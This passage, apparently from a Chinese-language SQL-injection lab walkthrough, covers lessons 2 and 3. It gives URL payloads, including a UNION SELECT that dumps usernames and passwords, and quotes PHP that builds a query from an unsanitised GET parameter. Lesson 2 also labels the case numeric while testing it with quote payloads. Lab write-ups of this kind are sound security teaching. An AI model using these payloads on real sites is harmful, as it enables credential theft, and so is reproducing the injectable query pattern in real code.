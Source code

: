 ### lesson 2

和 `lesson 1` 基本一致, 区别是为**数字型注入**, 通过以下 payload 就可以发现:

```url
?id=1' and '1'='1
```

![s2-1.png](s2-1.png)

剩余流程一致:

```url
?id=-1 UNION SELECT 1,GROUP_CONCAT(username),GROUP_CONCAT(password) FROM users --+
```

![s2-2.png](s2-2.png)

### lesson 3

这里使用前两节的 payload 均会报错, 直接打开源码参考一下:

```php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
$result = mysqli_query($conn, $sql);
```

可见在参数 `$id` 处使用括号包裹了起来, 用之前的 payload 验证一下, 确实存在这样的结构:

```url
?id=1'
```

![s3-1.png](s3-1.png)

更换一下 payload 即可:

```url
?id=1') --+
```

![s3-2.png](s3-2.png)
